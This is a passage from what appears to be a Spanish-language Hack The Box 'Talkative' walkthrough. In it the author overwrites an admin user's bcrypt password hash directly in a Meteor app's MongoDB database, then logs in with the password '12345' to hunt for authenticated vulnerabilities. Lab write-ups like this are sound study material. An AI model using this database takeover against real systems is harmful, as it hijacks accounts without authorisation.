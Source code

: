 Hay que reemplazar la palabra 'administrador' por 'admin' ya que ese es el nombre de usuario


```ruby
> rs0 [direct: primary] meteor> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
DeprecationWarning: Collection.update() is deprecated. Use updateOne, updateMany, or bulkWrite.
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 1,
  upsertedCount: 0
}
```

Esto hara que la contraseña del administrador cambie a '12345'.

Accedemos con el usuario saul@talkative.htb y la contraseña 12345.

<img src="/assets/images/htb/talkative/talkative20.png" style="display: block; margin-left: auto; margin-right: auto; width: 90%;"/>

Ahora como administrador de la página podemos buscar por vulnerabilidades de forma autenticada.

<img src="/assets/images/htb/talkative/talkative9.png" style="display: block; margin-left: auto; margin-right: auto; width: 70%;"/>

